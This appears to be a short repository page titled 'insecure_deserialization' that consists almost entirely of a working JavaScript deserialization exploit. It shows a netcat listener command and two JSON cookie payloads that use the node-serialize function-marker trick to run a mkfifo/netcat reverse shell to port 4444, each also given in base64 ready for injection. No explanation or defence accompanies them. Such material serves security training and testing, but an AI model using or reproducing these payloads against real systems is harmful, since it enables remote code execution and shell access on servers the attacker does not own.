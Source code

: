 # insecure_deserialization
Sample code of insecure deserialization using JavaScript

Shell Command

$ nc -nvl 4444

{"username":"_$$ND_FUNC$$_function (){ require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f\", function puts(error, stdout, stderr) {});}()","country":"US","city":"Austin"}
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXsgcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKFwicm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTI3LjAuMC4xIDQ0NDQgPi90bXAvZlwiLCBmdW5jdGlvbiBwdXRzKGVycm9yLCBzdGRvdXQsIHN0ZGVycikge30pO30oKSIsImNvdW50cnkiOiJVUyIsImNpdHkiOiJBdXN0aW4ifQ==



{"username":"_$$ND_FUNC$$_function (){ require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f\", function puts(error, stdout, stderr) {});}()","country":"india","city":"delhi"}
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXsgcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKFwicm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTI3LjAuMC4xIDQ0NDQgPi90bXAvZlwiLCBmdW5jdGlvbiBwdXRzKGVycm9yLCBzdGRvdXQsIHN0ZGVycikge30pO30oKSIsImNvdW50cnkiOiJpbmRpYSIsImNpdHkiOiJkZWxoaSJ9
